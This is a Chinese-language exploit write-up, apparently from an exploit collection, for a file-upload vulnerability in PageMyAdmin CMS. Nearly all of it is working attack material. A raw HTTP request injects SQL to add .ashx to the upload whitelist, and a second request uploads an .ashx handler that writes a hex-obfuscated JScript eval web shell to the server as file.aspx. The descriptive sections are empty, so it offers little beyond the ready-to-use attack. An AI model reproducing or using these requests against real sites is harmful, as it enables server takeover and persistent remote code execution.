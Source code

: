 PageMyAdmin文件上传getshell
===========================

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

先set增加ashx白名单-\>

    POST /e/aspx/upload.aspx?a=pageadmin_cms HTTP/1.1
    Accept: image/gif, image/x-xbitmap, image/jpeg, image/pjpeg, application/x-shockwave-flash, application/vnd.ms-excel, application/vnd.ms-powerpoint, application/msword, */*
    Content-Type: application/x-www-form-urlencoded
    User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/55.0.2883.9 Safari/537.36
    Cookie: ASP.NET_SessionId=c53k11452napjc45ibfuaw55
    Referer: http://www.0-sec.org/e/aspx/upload.aspx?a=pageadmin_cms
    Host: www.0-sec.org
    Content-Length: 106
    Connection: Keep-Alive

    submit=1&swf_upload=2&table=pa_field&field=file_ext=".jpg,.jpeg,.gif,.bmp,.ashx"  where id=174 and max_num

返回包

    HTTP/1.1 200 OK
    Cache-Control: private
    Content-Length: 72
    Content-Type: text/html; charset=utf-8
    Server: Microsoft-IIS/7.5
    X-AspNet-Version: 2.0.50727
    Date: Sat, 13 Jul 2019 07:52:02 GMT

    <script type='text/javascript'>location.href='?result=cs_error'</script>

第二步 在上传ashx-\>

    POST /e/aspx/upload.aspx HTTP/1.1
    Accept: image/gif, image/x-xbitmap, image/jpeg, image/pjpeg, application/x-shockwave-flash, application/vnd.ms-excel, application/vnd.ms-powerpoint, application/msword, */*
    Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryzBItOAbA8GrZ7s49
    User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/55.0.2883.9 Safari/537.36
    Cookie: ASP.NET_SessionId=c53k11452napjc45ibfuaw55
    Referer: http://www.0-sec.org/e/aspx/upload_p ... pic&from=master
    Host: www.0-sec.org
    Content-Length: 2318


    ------WebKitFormBoundaryzBItOAbA8GrZ7s49
    Content-Disposition: form-data; name="file"; filename="005.ashx"
    Content-Type: image/jpeg

    <%@ WebHandler Language="C#" Class="Handler" %>
    using System;
    using System.Web;
    using System.IO;


    public class Handler : IHttpHandler
    {
        public bool IsReusable
        {
            get
            {
                return false;
            }
        }
        public void ProcessRequest(HttpContext context)
        {
            byte[] b={0x3C, 0x25, 0x40, 0x20, 0x50, 0x61, 0x67, 0x65, 0x20, 0x4C, 0x61, 0x6E, 0x67, 0x75, 0x61, 0x67, 0x65, 0x3D, 0x22, 0x4A, 0x73, 0x63, 0x72, 0x69, 0x70, 0x74, 0x22, 0x25, 0x3E, 0x3C, 0x25, 0x65, 0x76, 0x61, 0x6C, 0x28, 0x52, 0x65, 0x71, 0x75, 0x65, 0x73, 0x74, 0x2E, 0x49, 0x74, 0x65, 0x6D, 0x5B, 0x22, 0x70, 0x61, 0x73, 0x73, 0x22, 0x5D, 0x2C, 0x22, 0x75, 0x6E, 0x73, 0x61, 0x66, 0x65, 0x22, 0x29, 0x3B, 0x25, 0x3E};
            try
            {
                File.WriteAllBytes(context.Server.MapPath("/e/upload/s1/article/file/")+"/file.aspx",b);
                context.Response.Write("oooooooookkkkkkkkk");
            }
            catch(Exception ex)
            {
                context.Response.Write(ex.Message);
            }
            context.Response.End();
        }
    }
    ------WebKitFormBoundaryzBItOAbA8GrZ7s49
    Content-Disposition: form-data; name="width"

    400
    ------WebKitFormBoundaryzBItOAbA8GrZ7s49
    Content-Disposition: form-data; name="height"

    400
    ------WebKitFormBoundaryzBItOAbA8GrZ7s49
    Content-Disposition: form-data; name="url"


    ------WebKitFormBoundaryzBItOAbA8GrZ7s49
    Content-Disposition: form-data; name="filesize"

    0
    ------WebKitFormBoundaryzBItOAbA8GrZ7s49
    Content-Disposition: form-data; name="username"

    admin
    ------WebKitFormBoundaryzBItOAbA8GrZ7s49
    Content-Disposition: form-data; name="sid"

    1
    ------WebKitFormBoundaryzBItOAbA8GrZ7s49
    Content-Disposition: form-data; name="type"

    file
    ------WebKitFormBoundaryzBItOAbA8GrZ7s49
    Content-Disposition: form-data; name="table"

    article
    ------WebKitFormBoundaryzBItOAbA8GrZ7s49
    Content-Disposition: form-data; name="field"

    titlepic
    ------WebKitFormBoundaryzBItOAbA8GrZ7s49
    Content-Disposition: form-data; name="from"

    master
    ------WebKitFormBoundaryzBItOAbA8GrZ7s49
    Content-Disposition: form-data; name="submit"

    1
    ------WebKitFormBoundaryzBItOAbA8GrZ7s49--

发送第二步返回shell

参考链接
--------

> <https://www.t00ls.net/viewthread.php?tid=52096&highlight=PageMyadmin>
